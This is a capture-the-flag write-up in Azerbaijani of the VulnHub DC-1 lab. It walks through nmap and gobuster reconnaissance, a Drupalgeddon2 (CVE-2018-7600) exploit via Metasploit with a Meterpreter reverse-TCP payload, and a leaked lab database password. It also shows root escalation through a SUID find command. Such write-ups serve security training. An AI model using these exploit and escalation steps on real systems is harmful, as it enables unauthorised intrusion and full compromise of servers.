# DC-1 CTF (VulnHub)

## Əvvəlcə Məlumat

Mərhələ 1: İnformasiya Toplanması və Şəbəkə Analizi (Reconnaissance)
Hücumun ilk mərhələsində hədəf maşını müəyyən etmək və onun üzərindəki xidmətləri analiz etmək üçün sistemli bir yol izlədim.

1.1 Hədəf IP-nin Müəyyən Edilməsi
Şəbəkədəki canlı hostları tapmaq üçün netdiscover alətindən istifadə etdim. Skan nəticəsində hədəf maşının 192.168.100.85 IP ünvanında olduğunu müəyyən etdim.



1.2 Port Skanlama və Xidmət Analizi (Nmap)
Hədəf üzərindəki açıq portları və servisləri müəyyən etmək üçün nmap ilə dərin analiz apardım:
Servis versiyaları və OS təyini üçün

nmap -sS -sV -O 192.168.100.85





*Nəticələr*

*Port 22: OpenSSH 6.0p1 (Debian)

*Port 80: Apache httpd 2.2.22 (Drupal CMS işləyir)

*Port 111: rpcbind

Bundan əlavə, SSH servisinin hansı alqoritmləri dəstəklədiyini və potensial zəifliklərini görmək üçün xüsusi Nmap script-ini işə saldım:

nmap --script ssh2-enum-algos -p22 192.168.100.85




1.3 Web İnterfeys və Directory Enumeration
80-ci portu brauzerdə açdıqda bizi standart bir Drupal Site giriş paneli qarşıladı.
Sistemin arxa tərəfindəki gizli qovluqları və faylları aşkar etmək üçün gobuster aləti ilə common.txt wordlist-indən istifadə edərək skan apardım:

gobuster \ dir \ -u \ [http://192.168.100.85](http://192.168.100.85) \ -w \ /usr/share/wordlists/dirb/common.txt


!











Tapıntılar:
/includes, /misc, /modules, /themes (Standart Drupal qovluqları)
robots.txt və CHANGELOG.txt kimi informasiya sızdıra biləcək fayllar bundan əlavə /README qovluğunda bildirilən web aplikasiyanın Drupalın hansı versiyası üzərində qurulduğu kimi maraqlı bir məlumat.

1.4 Zəiflik Araşdırması (Research)

## Zəiflik Analizi

OpenSSH 6.0p1 versiyası üçün apardığım araşdırma nəticəsində bu versiyanın CVE-2018-15473 (User Enumeration) zəifliyinə qarşı həssas ola biləcəyini qeyd etdim.



Drupal 7 versiyasının məlum zəifliklərini araşdırarkən, bu versiyanın Remote Code Execution (RCE) — yəni kənardan kod icra etmə boşluğuna (CVE-2018-7600 və ya Drupalgeddon2) sahib olduğunu təsbit etdim.
 


## Exploitation Prosesi

1. Zəiflik Üçün Müvafiq Modulun Seçilməsi
İstismar üçün Metasploit Framework (msfconsole) istifadə olundu. İlk olaraq Drupal ilə əlaqəli mövcud eksploitləri axtarmaq üçün search Drupal komandasından istifadə etdim. Nəticələr arasından hədəf versiyaya ən uyğun olan və "excellent" dərəcəli Drupalgeddon 2 (exploit/unix/webapp/drupal_drupalgeddon2) modulu seçildi.

2. Payload və Parametrlərin Tənzimlənməsi
Sistemə sızmaq və interaktiv idarəetmə əldə etmək üçün aşağıdakı parametrlər təyin olundu:

RHOSTS: 192.168.100.85 (Hədəf maşının IP ünvanı)

LHOST: [Sizin_IP] (Dinləmədə olan hücumçu maşının IP ünvanı)

Payload: php/meterpreter/reverse_tcp (Sistem daxilində geniş imkanlı Meterpreter sessiyası açmaq üçün)

3. Sistemin İstismarı və İlkin Giriş (Initial Access)
Bütün sazlamalar bitdikdən sonra exploit komandası icra olundu. Eksploit uğurla çalışaraq hədəf serverdə bir Meterpreter sessiyası açdı.

pwd komandası ilə sistemdəki yerim yoxlanıldı və hal-hazırda web serverin kök qovluğu olan /var/www daxilində olduğum təsdiqləndi.

Bu mərhələdə artıq server üzərində aşağı səviyyəli istifadəçi hüquqları ilə əməliyyat aparmaq imkanı əldə edildi.





## 🏆 Hücumun Nəticəsi və Flaglərin Toplanması
Sistemə ilkin giriş (Initial Access) əldə edildikdən sonra hədəfim sistem daxilində flagləri toplamaq və məlumat bazasına nüfuz etmək oldu.

🚩 Flag 1: İlk İpucu
Meterpreter sessiyası açılan kimi /var/www qovluğunda apardığım araşdırma nəticəsində flag1.txt faylını tapdım.



Mesaj: "Every good CMS needs a config file - and so do you."

Analiz: Bu mesaj bizə bildirir ki, Drupal kimi CMS-lərin (Məzmun İdarəetmə Sistemi) əsas sirləri onun konfiqurasiya faylında olur.

🚩 Flag 2: Konfiqurasiya və DB Kredensialları
Flag 1-dəki ipucuna əsasən Drupal-ın standart konfiqurasiya faylı olan sites/default/settings.php faylını analiz etdim.



Nəticə: Faylın daxilində həm Flag 2 tapıldı, həm də MySQL verilənlər bazasına giriş üçün lazım olan istifadəçi adı və şifrə ələ keçirildi.

Kredensiallar: dbuser : R0ck3t

🛠️ MySQL Problemi və Həlli (Troubleshooting)
Ələ keçirdiyim məlumatlarla MySQL-ə qoşulmağa çalışarkən .sock faylı ilə bağlı xəta aldım. Bu, bazanın hal-hazırda aktiv olmadığını göstərirdi.



Həll: Sistem xidmətlərini yoxladıqda MariaDB/MySQL xidmətinin "inactive" olduğunu gördüm. service mysql start komandası ilə xidməti aktivləşdirdim. Problemi həll etdikdən sonra giriş cəhdi etsəm də, bəzi icazə xətaları (Access Denied) davam etdi.




🚩 Flag 4: İstifadəçi Analizi və Nüfuz
Bazadakı bəzi texniki maneələrdən dolayı diqqətimi sistemin özünə və digər istifadəçilərə yönəltdim. /etc/passwd faylını oxuyaraq sistemdəki real istifadəçiləri siyahıladım.



Kəşf: Sistemdə flag4 adlı bir istifadəçinin mövcudluğunu müəyyən etdim.

Nəticə: Həmin istifadəçinin ev qovluğuna (/home/flag4) daxil olduqda flag4.txt faylını tapdım. Bu flag bizə birbaşa işarə edir ki, artıq sonuncu hədəfimiz olan root səlahiyyətlərini almaq vaxtıdır,amma hələdə (Flag 3) axtarışdadı. 



##  İmtiyazların Qaldırılması (Privilege Escalation) Proseduru

Flag 4-dən sonra hədəfim sistemi tam ələ keçirmək (Root) idi. Lakin bu yol bir neçə uğursuz cəhd və fərqli metodların sınanması ilə yadda qaldı.

1. Şifrə Dəyişmə Cəhdi və Uğursuzluq
İlk olaraq ələ keçirdiyim məlumatlarla verilənlər bazası üzərindən admin şifrəsini dəyişməyə və ya yeni istifadəçi yaratmağa çalışdım. Lakin bu proses gözlənilən nəticəni vermədi, icazə xətaları və ya sessiya qopmaları səbəbindən bu metodla irəliləmək mümkün olmadı.




3. SUID Metodu: Find Komandasının Kəşfi
Alternativ yol kimi sistemdəki SUID icazəli faylları skan etdim və find komandasının xüsusi imtiyazlara malik olduğunu aşkar etdim. Bu, sistemdə root olmaq üçün ən real fürsət idi.



5. Root Olmaq Yolunda Maneələr (Troubleshooting)
find komandası vasitəsilə şell (shell) almağa çalışarkən ilk cəhdim uğursuz oldu və sistem xəta qaytardı.




Xəta: Sintaksis və ya icra zamanı yaranan texniki problem səbəbindən root icazəsi təmin olunmadı.

Həll: Komandaya -quit parametrini əlavə edərək və şell strukturunu düzəldərək yenidən cəhd etdim. Sonda find . -exec /bin/sh -p \; -quit komandası ilə sistemdə root səlahiyyətlərini əldə etdim.



4. Gözlənilməz Tapıntı: Yolüstü Final Flag
Səlahiyyətləri artırdıqdan sonra dərhal çatışmayan Flag 3-ü axtarmağa başladım. Lakin /root qovluğunu və ətrafı skan edərkən, Flag 3-dən əvvəl qarşıma təsadüfən thefinalflag.txt çıxdı.






Nəticə: Final flag-i ələ keçirsəm də, laboratoriyanın tam bitməsi üçün Flag 3 hələ də tapılmalı idi.

## 🔍 Növbəti Mərhələ: Flag 3-ün Axtarışı
Final flag-in tapılmasına baxmayaraq, xronoloji ardıcıllığı tamamlamaq və sistemin bütün zəif nöqtələrini sənədləşdirmək üçün Flag 3-ün axtarışına davam edirəm. Hazırda root səlahiyyətləri ilə sistemin dərinliklərini (verilənlər bazası cədvəlləri və gizli fayllar) yenidən analiz edirəm.root səlahiyyətlərini aldıqdan sonra məlum oldu ki, laboratoriyanı tamamlamaq üçün çatışmayan Flag 3-ü tapmaq ən qəliz mərhələdir. Bu mərhələdə apardığım əməliyyatların ardıcıllığı belədir:

1. Drupal Admin Şifrəsinin Manipulyasiyası
Flag 3-ün admin panelində ola biləcəyini düşünərək, Drupal-ın daxili skripti ilə yeni bir şifrə hash-i yaratdım. Məqsəd bazadakı admin şifrəsini öz bildiyim şifrə ilə əvəzləmək idi.

Drupal-ın password-hash.sh skripti ilə şifrə yaradılması zamanı yaranan ilkin çətinliklər.




2. Yaratdığım hash-i birbaşa bazaya yerləşdirmək üçün manual olaraq SQL komandasını icra etdim. users cədvəlində admin (uid 1) istifadəçisinin şifrəsini dəyişməyə çalışdım.



 SQL komandası uğurla icra olunsa da, bu, problemin tam həlli olmadı.

2. İcazə və Link Xətaları (Access Denied)
Şifrəni dəyişdikdən sonra Mysql üzərindən giriş etmək istəyərkən sistem daxili təhlükəsizlik və ya konfiqurasiya maneələri yaratdı.Daha sonra Drupal-ın rəsmi idarəetmə aləti olan Drush vasitəsilə birbaşa giriş linki yaratmağa (drush uli) çalışdım.




Hətta dbuser kredensialları ilə bazaya birbaşa qoşulmaq istəyəndə "Access Denied" (Giriş rədd edildi) xətası ilə qarşılaşdım.



Strategiyanın Dəyişdirilməsi
Bu nöqtədə artıq standart CMS idarəetmə metodlarının işləmədiyi anlaşıldı və Flag 3-ün izinə düşmək üçün sistemin daxili qovluq iyerarxiyası üzərindən yeni bir axtarış planı hazırlandım.

Texniki analiz və mümkün axtarış vektorlarının müəyyən edilməsi.



6. MySQL Xidmətinin  Bərpası
Məhdudiyyətləri aşmaq üçün sistemin tam sahibi (Root) kimi MySQL konfiqurasiyasına və .sock faylına birbaşa müdaxilə etdim.

MySQL xidmətinin xətalarının (socket errors) aradan qaldırılması və xidmətin yenidən başladılması prosesi sənədləşdirildi.




Nəhayətki Mysql problemini həll edərək ROOT olaraq giriş əldə edirik lakin...



Mysql daxilində atarış edərkən drubaldb adlı bir table olmadığının fərqinə varıram.



Geri dönərək öncədən giriş əldə etdiyimiz ROOT imtiyazı aldığımız shell'də axtarışıma davam edirəm.



Yenidən bazaya qoşulmaq istəyərkən "Can't connect to local MySQL server through socket '/var/run/mysqld/mysqld.sock'" xətası aldım Bu xəta MySQL serverinin aktiv olmadığını və ya socket faylının zədələndiyini göstərirdi.



Bu texniki problemi həll etmək üçün sistem səviyyəsində müdaxilə etdim. service mysql start komandası ilə bazanı yenidən aktivləşdirməyə çalışdım və xidmətin statusunu yoxlayaraq onun "active (running)" vəziyyətinə gəlməsini təmin etdim.



Problemi həll etdikdən sonra nəhayət MySQL terminalına daxil olmaq mümkün oldu.



Lakin içəri girdikdə yeni bir problemlə qarşılaşdım: show databases; komandasını icra edərkən Drupal-ın əsas məlumat bazası olan drupaldb siyahıda görünmürdü. Siyahıda yalnız information_schema və mysql kimi standart sistem bazaları mövcud idi.



Bu o demək idi ki, bazanı aktivləşdirsəm də, hələ ki, lazım olan məlumatlara giriş üçün kifayət qədər imtiyazım yoxdur və ya baza fərqli ad altında gizlədilib. Flag 3-ü tapmaq üçün axtarışı daha dərin səviyyədə davam etdirməli oldum.

MySQL-də drupaldb bazasının görünməməsi və imtiyaz xətalarından sonra, diqqətimi yenidən sistemin kök fayllarına yönəltdim. Artıq root səlahiyyətlərinə sahib olduğum üçün heç bir icazə maneəsi olmadan Drupal-ın konfiqurasiya fayllarını və bazaya qoşulma tənzimləmələrini yenidən analiz etməyə başladım.

Sistemə Qayıdış: MySQL terminalından çıxaraq birbaşa sistem şellinə (shell) qayıtdım. Burada məqsədim settings.php faylını təkrar oxumaq və bazanın niyə tam əlçatan olmadığını anlamaq üçün konfiqurasiya detallarını araşdırmaq idi.



Sessiya Problemləri : Lakin bu gərgin axtarış zamanı şell qopdu (session dropped). Bu, məni bir anlıq dayandırsa da, dərhal sistemi yenidən ayağa qaldıraraq axtarışa davam etdim.



İnadkar Axtarış: Hər dəfə sessiya qopanda və ya texniki problem çıxanda yenidən search və grep komandaları ilə Flag 3-ün izinə düşdüm. Root olduğum üçün artıq bütün sistem qovluqları mənə açıq idi.




Zəfər: Nəhayət, bu inadkar axtarışın sonunda Flag 3-ü ələ keçirdim. Bu, sadəcə bir flag deyil, həm də qarşıma çıxan bütün o MySQL və sistem xətalarına qarşı qazandığım texniki qələbənin təsdiqi idi.




## Dərslərin Çıxarılması

Bu Laboratoriyadan cıxarılan dərs mənim üçün bəzi ip ucular kənarlarda gizlənə bilir bundan əlavə FLAG 3 axtarmaq mənim üçün Final flag tapmaqdan cətin oldu  amma ən coxda öyrədici olan flag 3 axdardığım zaman kecdiyim yollar idi hansı ki, Mysql haqqında və sheel istifadə edərək sistemin daxilində drubaldb giriş etmək üçün kecdiyim tətbiq etməyə calışdığış yol mənim üçün bu lab maraqlı edən əsas səbəbdi.

## Resurslar

Resurslar və Metodologiya
Bu layihənin icrası zamanı həm mövcud eksploit bazalarından, həm də süni intellekt (AI) texnologiyalarından strateji şəkildə istifadə olunmuşdur:

Exploit Verilənlər Bazaları:

Exploit-DB: Drupal 7 versiyasındakı zəifliklərin (CVE-2018-7600) ilkin analizi üçün.

Rapid7 (Metasploit): Uyğun payloadların seçilməsi və RCE (Remote Code Execution) modullarının tənzimlənməsi üçün.

Süni İntellekt (AI) ilə İş Metodologiyası:
Layihə boyunca AI (Gemini/ChatGPT və.s) sadəcə bir məlumat mənbəyi deyil, "Texniki Analiz Partnyoru" kimi tətbiq olunmuşdur:

Troubleshooting (Xətaların Həlli): Xüsusilə MySQL socket xətaları (.sock error) və Drush komandasının sistem tərəfindən dayandırılması (Killed error) zamanı AI vasitəsilə logların analizi aparılmış və ən effektiv həll ssenariləri tətbiq edilmişdir.

Prompt Engineering: AI-dan doğru nəticəni almaq üçün texniki şərtlər (context) düzgün ifadə edilmiş, sistemin mövcud vəziyyəti (root səlahiyyəti, fayl strukturu) barədə dəqiq "prompt"lar vasitəsilə mürəkkəb problemlər üçün addım-addım həll yolları generasya olunmuşdur.

Sənədləşmə və Hesabat: Texniki mərhələlərin peşəkar sızma testi hesabatı formatına salınması və metodologiyanın (Privilege Escalation yolları) strukturlaşdırılması üçün AI-dan istifadə edilmişdir.
